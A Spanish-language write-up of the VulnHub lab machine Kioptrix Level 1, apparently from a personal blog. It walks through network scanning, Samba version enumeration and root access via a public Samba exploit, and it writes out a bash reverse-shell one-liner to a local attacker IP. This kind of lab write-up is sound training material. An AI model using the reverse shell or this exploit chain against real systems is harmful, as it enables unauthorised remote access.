 ```yaml
---
title: Write-Up de la máquina Kioptrix Level 1 - VulnHub
date: 2024-04-08 10:00:00 - 0500
categories: [VulnHub]
tags: [vulnhub, kiptriox, netbios-ssn,samba, metasploit, rce, reverse_shell] 
image: /assets/img/kioptrix1.png
alt: "Kioptrix Level 1"
# TAG names should always be lowercase
---
```



### Reconocimiento

>En primer lugar aplicaremos reconocimiento para identificar los equipos que hay en la red con el comando `arp-scan -I ens33 --localnet`

![](/assets/img/k1.png){: width="700" height="400" }

>Como podemos ver la máquina Kioptrix que estoy ejecutando paralelamente con VMware tiene asignada la IP 192.168.1.14
>
>Sabiendo esto, realizaremos un escaneo con Nmap buscando puertos abiertos mediante el protocolo TCP:

![](/assets/img/k2.png){: width="700" height="400" }


> Primeramente podemos determinar que nos encontramos ante una máquina Linux debido a que su TTL=64.
> 
> A continuación realizaremos un escaneo más exhaustivo con Nmap sobre los puertos que están abiertos usando un conjunto de scripts de reconocimiento:

![](/assets/img/k3.png){: width="700" height="400" }

>Haremos uso de la herramienta **SSLScan** para evaluar la configuración SSL del servidor en busca de posibles vulnerabilidades como HeartBleed:

![](/assets/img/k4.png){: width="700" height="400" }

>No lo es, por lo que pasaremos a enumerar el servicio netbios-ssn que corre por el puerto 139 para intentar conocer la versión de Samba haciendo uso de Metasploit:

La interfaz NETBIOS proporciona 3 ervicios distintos:
- de nombres (NetBIOS-NS) - puerto 137
- de distribución de datagramas (NetBIOS-DGM) - puerto 138
- **de sesión (NetBIOS-SSN) para comunicación orientada a conexión - puerto 139**

![](/assets/img/k5.png){: width="700" height="400" }

>Haciendo uso del framework hemos podido enumerar el puerto 139 y sabemos que está usando la versión 2.2.1a de Samba


### Explotación

>Vamos a buscar si hay vulnerabilidades asociadas a la versión de Samba que acabamos de enumerar:

![](/assets/img/k6.png){: width="700" height="400" }

>Nos encontramos con una posible Remote Code Execution (RCE), así que miraremos el contenido del archivo que explota la [vulnerabilidad](https://www.exploit-db.com/exploits/10) con el comando  `searchsploit -x multiple/remote/10.c`.

![](/assets/img/k7.png){: width="700" height="400" }

![](/assets/img/k8.png){: width="700" height="400" }

>En las anteriores imágenes que muestran el contenido del archivo podemos ver un ejemplo de uso del script así como su sintaxis.
>
>Una vez sabido esto, haremos el archivo .c ejecutable y usaremos el parámetro -b para especificar que estamos ante una maquina Linux:

![](/assets/img/k9.png){: width="700" height="400" }


>Hemos conseguido ejecutar la RCE y estamos autenticados como usuario root. Adicionalmente conseguimos una reverse shell haciendo uso del comando `bash -i >& /dev/tcp/192.168.1.13/4646 0>&1` 

![](/assets/img/k10.png){: width="700" height="400" }

>Para concluir encontramos la flag en el directorio var/mail:

![](/assets/img/k11.png){: width="700" height="400" }
